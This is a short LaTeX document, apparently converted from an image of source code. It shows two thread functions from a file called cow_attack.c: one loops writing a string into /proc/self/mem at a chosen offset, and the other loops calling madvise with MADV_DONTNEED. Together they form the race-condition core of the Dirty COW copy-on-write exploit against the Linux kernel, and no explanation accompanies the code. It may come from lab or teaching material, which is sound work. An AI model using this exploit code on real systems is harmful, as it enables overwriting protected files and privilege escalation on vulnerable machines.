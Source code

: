 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{\texttt{write} thread: \texttt{cow\_attack.c}}
\begin{verbatim}
void *writeThread(void *arg)
{
    //Content to overwrite
    char *content="5555555555";
    off_t offset = (off_t) arg;
    
    int f=open("/proc/self/mem", O_RDWR);
    while(1) {
        //Move file pointer to corresponding position.
        lseek(f, offset, SEEK_SET);
        //Write to memory.
        write(f, content, strlen(content));
    }
}
\end{verbatim}
\subsection{\texttt{madvise} thread: \texttt{cow\_attack.c}}
\begin{verbatim}
void *madviseThread(void *arg)
{
    int file_size = (int) arg;
    while(1) {
        madvise(map, file_size, MADV_DONTNEED);
    }
}
\end{verbatim}
	
\end{document}
